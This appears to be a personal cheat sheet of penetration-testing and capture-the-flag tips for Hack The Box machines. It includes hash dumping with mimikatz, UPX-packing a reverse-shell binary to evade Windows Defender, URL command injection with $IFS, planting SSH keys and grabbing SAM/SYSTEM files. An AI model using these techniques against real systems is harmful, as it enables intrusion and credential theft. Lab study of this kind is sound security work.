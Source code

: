1. Run exploit manually two times min cuz there is a change the it wont work in first go.
2. Use `mimkatz` to dump hashes in the windows 
	Command : `lsadump::sam`
3. Finding Flags `dir *flag*.txt /s`
4. If you have to write in folder that you can access from web then you can get reverse shell Ex: SMB,FTP,etc
5. If you find 111 open then there is chances of NFS running also nmap with nse for nfs on 111 and 2049 or do manually.
6. For Windows If we have valid credentials of system then we can do psexec64.py to get into system  
	```bash
	psexec64.py user:password@target-IP
	```
7. If WinPEAS.exe doesnt work then go with WinPEAS.bat
8. Cap transmission hit error in nmap on ports then reduce the min rate.
9. If have ``/cgi-bin/`` directory then search for files having extensions ``-x sh,pl,cgi``
10. If you face windows defender problem in script execution (Windows) then use `upx -9 rev.exe` command in kali then downlaod it.
11. During Dirsearch if you find nothing then try with `-b` option to skip SSL certificate 

1. Gobuster / Content Discovery TIP:
	1. If you encounter directory like `/cgi-bin/` then bute again with extensions `-x sh,pl,cgi`
	2. If you encounter server running pfsense or any similar webapp then use extenstions `-x txt,php,html`
	3. `-b` in dirsearch and `-k` in Gobuster for ignoring SSL certificate.

13. Try everything you are thingking of



14. Doctor HTB
	- If you found any endpoint that isnt working and have login functionality then login and then try to access it. [See Command injection as a endpoint](https://0xdf.gitlab.io/2021/02/06/htb-doctor.html#via-command-injection)
	- *From Doctor* If you see that webapp is curling your server then try executing commands by using \$(command) in the url Ex: http://10.10.14.14/$(id), you will see the id command ouput in request
	- After executing command Bash URL encoding we can use $IFS vairable 
		- Ex: ``echo$IFS'test'`` will decoded as `echo 'test'` > `test`

	- If you can run command on victim machine then make your ssh keys in his home folder.

15. If you encounter a **Password** and **SSH** is enabled then try login into the user.
16. Burp ka URL encode is Chutiya.

17. Aviable foreign port to our local machine using ssh 
	```bash
	ssh -L 5050:127.0.0.1:21 admin@10.10.10.90
	```
	
18. **If access to directory is forbidden `401` then try dirsearch cuz then maybe you might have access to the content behind the wall**

19. Shell confirmation `tcpdump -i tun0 icmp`  and use ping command in target machine.



20. During shell if `whoami` not getting execute then try `cmd /c whoami` **Windows Tip**

-----
21. If you have Remote code execution and unable to get the reverse shell then try to fetch the SAM,SYSTEM,SECURITY file.

----

**User ACL file permission**
- a `+` sign can be seen if ACL is implemented on any file.
	- Ex: drwxrwx---+
	- In that case we will use the `getfacl /usr/local/monitoring` command to get the info abt ACL.

22. If server has SNMP enabled then possible that the root you might get is from `snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects` [HTB pit]

23. [mysql] If dont have client binary then dump the database from `mysqldump`
24. If you see Login Page and tested for SQLi then go with NoSQLi injection also.

---

25. If you encounter API in the webapp then navigate to 'Debugger' tab of the broweser and open the 'Controllers' and 'app.js' for getting info about endpoints enum.

---

26. Just overwrite the file if you cant remove it

---

27. Check for Type juggling on the login pages in PHP.
 change the request to 
```txt
# from

username=admin&password=

# to

 username=admin&password[]= 

```

---

28. MOTD service can be used to escalate privileges in linux.
